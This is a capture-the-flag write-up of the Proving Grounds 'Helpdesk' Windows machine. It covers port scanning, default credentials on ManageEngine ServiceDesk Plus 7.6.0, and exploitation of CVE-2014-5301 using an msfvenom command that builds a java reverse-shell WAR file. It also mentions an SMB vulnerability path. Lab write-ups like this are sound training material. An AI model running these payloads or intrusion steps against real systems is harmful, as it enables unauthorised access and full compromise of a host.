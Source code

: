 > title: ProvingGround_Practice-helpdesk

machine info: This is a 10 point Windows machine. Offensive Difficulty is Easy, same as Community Rated Difficulty.

## Information Gathering

First of all, I use masscan scanning the open ports.

```
masscan -p1-65535,U:53,69,161 $target_ip --rate=5000 -e tun0 -oG masscan-$target_ip
```

![image-20230209204050038](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20230209204050038.png)

The output file shows me some ports, I use nmap for further infomation.

```
port_str=`cat masscan-$target_ip | grep "/open/tcp/" |cut -f 4 -d ":" |cut -f 2 -d " " |cut -f 1 -d "/" | tr '\n' ',' |sed 's/.$//'`;nmap -A -p$port_str $target_ip -oN nmap-$target_ip
```

![image-20230209205218855](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20230209205218855.png)

## Initial Access

Web Service is ManageEngine ServiceDesk Plus, and the version is 7.6.0.

![image-20230209210948579](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20230209210948579.png)

Searching in google for default credentials.

![image-20230209211510356](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20230209211510356.png)

Fortunately, this credential can be used in this machine.

Using searchsploit to get if there any exploits can execute. As the result, there is a File Upload module in metasploit. `ManageEngine (Multiple Products) - (Authenticated) Arbitrary File Upload (Metasploit)                                                                                                                     | java/remote/35845.rb`

Usually, the metasploit scripts carry the CVE number, so does it.

![image-20230209212040912](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20230209212040912.png)

After google, a python script in [github]([exploits/CVE-2014-5301.py at master · PeterSufliarsky/exploits (github.com)](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py)). I'm trying not to use metasploit in this machine, but I can't find a perfect war shell not using msf. 

Now, I have to use msf:

```
msfvenom -p java/shell_reverse_tcp LHOST=ip LPORT=port -f war > shell.war
```

Easily using the python script reverse shell finally.

![image-20230209221142446](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20230209221142446.png)

![image-20230209221155390](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20230209221155390.png)

The user we login is `nt authority\system`,just cat the flag.
that's all: )

## Other Path

Scanning the smb vulnerable in nmap. Why to do that? You can see the version of Windows if pretty old, it might be a smb vulns!

```
nmap --script smb-vuln*.nse -p 139,445 $target_ip -Pn -oN smb-vuln-scan

```

There is a result.

![image-20230209221952021](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20230209221952021.png)

After google it, exploitdb shows me it is a RCE vuln. It is hard to write the payload by self, so still using msf.

![image-20230209223128267](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20230209223128267.png)

same as before.